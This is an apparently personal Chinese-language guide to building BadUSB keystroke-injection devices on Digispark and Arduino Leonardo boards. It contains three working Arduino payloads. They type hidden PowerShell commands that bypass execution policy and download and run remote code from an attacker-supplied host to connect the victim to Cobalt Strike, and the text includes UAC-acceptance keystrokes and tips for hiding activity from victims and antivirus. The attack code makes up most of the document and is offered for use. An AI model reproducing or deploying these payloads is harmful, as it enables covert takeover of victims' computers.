




badusb整理
badusb,目前我手上有的有两种，digispark和 leonardo，淘宝上都有，随便买
两类开发板适用的代码有区别，个人感觉leonardo的更好用，
digispark
打开arduino，工具-开发板-Digistump AVR Boards-Digispark(Default-16.5mhz)
然后开始写代码就行了

代码要写入到设备时，点击上传，等他出现编译好后，会出现

这时候把badusb插入就好了。
payload1
这个payload是用win+r打开运行窗口，执行powershell上线cs的命令，缺点是火绒会拦截执行隐藏powershell这一行为，目前还没想到怎么绕过。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
| #include "DigiKeyboard.h"
#define KEY_ESC 41
#define KEY_SHIFT 225
#define KEY_CAPS_LOCK 57
void setup() {
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(30);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK);
DigiKeyboard.print("powershell -w Normal -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://ip:port/payload.ps1');");
DigiKeyboard.sendKeyPress(0);
DigiKeyboard.delay(1000);
DigiKeyboard.sendKeyStroke(MOD_SHIFT_LEFT,MOD_CONTROL_LEFT);
DigiKeyboard.sendKeyStroke(0,KEY_ENTER);
DigiKeyboard.sendKeyPress(0);
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(MOD_ALT_LEFT,KEY_Y);
DigiKeyboard.sendKeyPress(0);
}
void loop() {
}
|
leonardo
打开arduino，工具-开发板-Arduino AVR Boards-Arduino Leonardo

然后插入设备，选择端口，

这个开发板需要把代码写入设备时，直接点上传就好了
payload1
这个payload是win+打开命令窗口。执行powershell命令，然后用ctrl+shift+enter的方式，以管理员身份执行命令（以获取管理员权限），然后用alt+Y绕过UAC，缺点是火绒同样会拦截执行隐藏powershell这一行为
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
| #include <Keyboard.h>
#include <Mouse.h>
void setup() {
delay(5000);
Keyboard.press(KEY_LEFT_GUI);
Keyboard.press('r');
Keyboard.releaseAll();
delay(500);
Keyboard.press(KEY_CAPS_LOCK);
Keyboard.print("powershell -w Normal -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://ip:port/payload');");
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_SHIFT);
Keyboard.press(KEY_RETURN);
Keyboard.releaseAll();
delay(1500);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press('y');
Keyboard.releaseAll();
delay(1500);
}
void loop() {}
|
payload2
这个payload是打开一个命令行窗口，然后让他最小化，让受害者不能第一时间看到代码，这样操作更容易绕过一些杀软，也有更多的操作空间
具体命令
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
| #include <Keyboard.h>
void setup() {
Keyboard.begin();
delay(300);
Keyboard.press(KEY_LEFT_GUI);
delay(500);
Keyboard.press('r');
delay(500);
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r');
Keyboard.press(KEY_CAPS_LOCK);
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("cmd /T:01 /K \"@echo off && mode con:COLS=15 LINES=1\"");
delay(500);
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
delay(200);
Keyboard.println("powershell");
delay(50);
Keyboard.println("$clnt = new-object system.net.webclient;");
delay(50);
Keyboard.println("$url='http://ip:port/payload';");
delay(50);
Keyboard.println("$file = \"E:\\payload\\test1\";");
delay(50);
Keyboard.println("$clnt.downloadfile($url,$file);");
Keyboard.println("exit");
delay(3000);
Keyboard.println("exit");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK);
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();
}
void loop() {
}
|